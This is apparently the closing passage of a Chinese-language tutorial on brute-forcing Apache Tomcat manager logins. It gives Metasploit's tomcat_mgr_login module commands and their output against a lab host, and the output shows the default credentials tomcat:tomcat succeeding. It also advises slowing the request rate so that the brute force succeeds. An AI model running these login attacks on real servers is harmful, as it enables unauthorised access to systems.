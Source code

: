 ![Snipaste_2018-10-18_02-07-32.png](https://whitecell.io/upload/attach/201810/151_YWV8N67JMSC4EFD.png "Snipaste_2018-10-18_02-07-32.png")

---

## 总结

在爆破的时候发现频率过高会有爆破不成功的现象，最好是调整一下短时间内请求的次数。

---

## 采用Metasploit中的tomcat爆破辅助模块

有一些工具可用于利用Tomcat管理器。Metasploit包含一个用于强制登录凭据的辅助模块。

```txt
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set RHOSTS 10.211.55.3
RHOSTS => 10.211.55.3
msf auxiliary(tomcat_mgr_login) > set RPORT 8080
RPORT => 8080
msf auxiliary(tomcat_mgr_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf auxiliary(tomcat_mgr_login) > run
[+] 110.211.55.3:8080 - LOGIN SUCCESSFUL: tomcat:tomcat
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```txt
i] Database already started
[i] The database appears to be already configured, skipping initialization
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v4.17.3-dev                          ]
+ -- --=[ 1795 exploits - 1019 auxiliary - 310 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 10.211.55.3
RHOSTS => 10.211.55.3
msf auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8080
RPORT => 8080
msf auxiliary(scanner/http/tomcat_mgr_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf auxiliary(scanner/http/tomcat_mgr_login) > run

[-] 10.211.55.3:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.211.55.3:8080 - LOGIN FAILED: manager:admin (Incorrect)
```

[1]: http://mannix.top/
[2]: https://payloads.online/archivers/2017-08-17/2
